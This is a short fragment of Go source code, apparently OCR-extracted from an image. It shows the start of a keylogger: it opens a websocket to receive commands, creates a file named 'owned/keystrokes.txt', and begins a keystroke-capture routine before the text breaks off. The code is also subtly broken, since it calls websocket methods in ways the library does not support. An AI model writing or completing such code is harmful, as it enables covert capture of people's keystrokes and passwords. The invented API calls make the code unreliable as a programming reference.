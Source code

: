 ```
	"encoding/base64"

	"encoding/json"

	"fmt"

	"log"

	"os"

	"os/exec"

	"strings"

	"time"



	"github.com/gorilla/websocket"

)



func main() {

	// Open the websocket connection to receive commands

	conn := websocket.Upgrader{}.Upgrade("ws://localhost:8080", nil)

	err := conn.Handshake()

	if err != nil {

		log.Fatal(err)

	}



	// Set up logging and file handling

	file, err := os.Create("owned/keystrokes.txt")

	if err != nil {

		log.Fatal(err)

	}

	defer file.Close()



	log.Println("Logging started")



	// Start capturing keystrokes

	c := make(chan []byte)

	go func() {
```